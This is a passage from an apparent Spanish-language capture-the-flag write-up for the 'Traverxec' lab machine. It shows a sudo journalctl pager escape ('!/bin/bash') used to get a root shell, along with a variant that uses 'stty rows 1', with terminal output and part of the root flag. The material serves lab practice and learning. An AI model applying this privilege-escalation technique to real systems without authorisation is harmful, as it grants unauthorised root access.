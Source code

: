 No olvidemos cambiar el tamaño de la terminal (verticalmente).

Sabiendo esto, podemos intentar escalar los privilegios con el comando que se muestra en GTFOBins:

```shell
david@traverxec:~$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
-- Logs begin at Sun 2021-10-17 18:09:21 EDT, end at Sun 2021-10-17 19:25:33 EDT. --
Oct 17 18:34:04 traverxec sudo[3841]: pam_unix(sudo:auth): authentication failure; logname= uid=33 euid=0 tty= ruser=www-data rhost=  user=www-data
Oct 17 18:34:06 traverxec sudo[3841]: pam_unix(sudo:auth): conversation failed
Oct 17 18:34:06 traverxec sudo[3841]: pam_unix(sudo:auth): auth could not identify password for [www-data]
!/bin/bash
root@traverxec:/home/david# id
uid=0(root) gid=0(root) groups=0(root)
root@traverxec:/home/david# cd /root
root@traverxec:~# ls
nostromo_1.9.6-1.deb  root.txt
root@traverxec:~# cut -c-5 root.txt
9aa36
```

Alternativamente, podemos configurar las filas stty para que tengan menos de 5 filas (líneas verticales):

```shell
david@traverxec:~$ stty rows 1
david@traverxec:~$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
!/bin/bash
root@traverxec:/home/david# id
uid=0(root) gid=0(root) groups=0(root)
root@traverxec:/home/david#
```
